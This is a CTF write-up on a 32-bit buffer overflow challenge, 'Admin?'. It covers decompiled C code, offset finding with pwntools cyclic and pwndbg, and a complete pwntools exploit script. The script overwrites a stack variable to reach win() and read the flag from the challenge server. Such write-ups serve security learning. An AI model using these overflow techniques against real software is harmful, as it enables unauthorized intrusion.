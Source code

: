 ```yaml
--- 
title: Binary Exploitation -  Admin?
date: 2025-01-27 
categories: [CTF, Writeups] 
tags: [ctf, buffer_overflow , pwn ] 
author: 0xhyder
description: A walkthrough of the pwn challenge from the IIT BHU - Codefest CTF 2025
---
```


### Description

### 100

challenge by : 0xkn1gh7

Can you become admin?

### Solution

we got a ELF executable file,

![image1](/assets/images/image1.png)

checksec,

![[/assets/images/image3.png]]

From the initial inspection of the ELF executable file,

1. The file is a 32-bit, little-endian executable.
2. The file is not stripped, allowing for easier debugging.
3. No stack canary is present, suggesting a vulnerability to buffer overflow attacks.

From the Decompiled Code ,
```c

int32_t win()
{
    void var_74;
    fgets(&var_74, 0x64, fopen("/flag.txt", u"r…"));
    return puts(&var_74);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void* const __return_addr_1 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*stdout, nullptr);
    banner();
    int32_t var_14 = 1;
    void buf;
    fgets(&buf, 0x32, *stdin);
    
    if (var_14 != 0x23456723)
        printf("%x\\n", var_14);
    else
        win();
    
    return 0;
}

int32_t _fini()
{
    return;
}
```

At first, the idea was to overwrite the `EIP` register to directly call the `win()` function. Using `cyclic()` to find the offset for `EIP`:

```python
from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

```

![image2](/assets/images/image2.png)


However, after testing, it was observed that the EIP register was not overwritten. Upon further inspection of the assembly code:
![image3](/assets/images/image4.png)

From the disassembly, it was noticed that the variable `var_14` is stored at `ebp - 0xc`. The value of `var_14` is compared with `0x23456723` at `main+89`. Using a debugger to set the break point at the address 0x56556315 to inspect the value:

```python
pwndbg> print/x *(int*)($ebp - 0xc)
$1 = 0x61616169
pwndbg> print/x ($ebp - 0xc)
```

This reveals the offset where `var_14` is located. Using `cyclic_find()`

```python
>>> cyclic_find(0x61616169)
32
```

The offset is confirmed to be 32 bytes.

Since the offset is revealed , By crafting a payload to overwrite the value at offset 32 with `0x23456723`, the condition to call the `win()` function is satisfied, and the flag can be retrieved.

### Exploit

using python with pwn for script,

```python
from pwn import *
context.log_level = 'critical'
elf = context.binary = ELF('chall')

gdbscript = '''
break *main
continue
'''

if args.REMOTE:
    p = remote('codefest-ctf.iitbhu.tech', 16391)
elif args.GDB:
     p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)  

log.info("\\\\n==== start exploit ====\\\\n")
p.recvuntil(b'Admin?')
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\\x23\\x67\\x45\\x23'
p.sendline(payload)
print(p.recv())
p.interactive()
```

got the flag,
![image4](/assets/images/image5.png)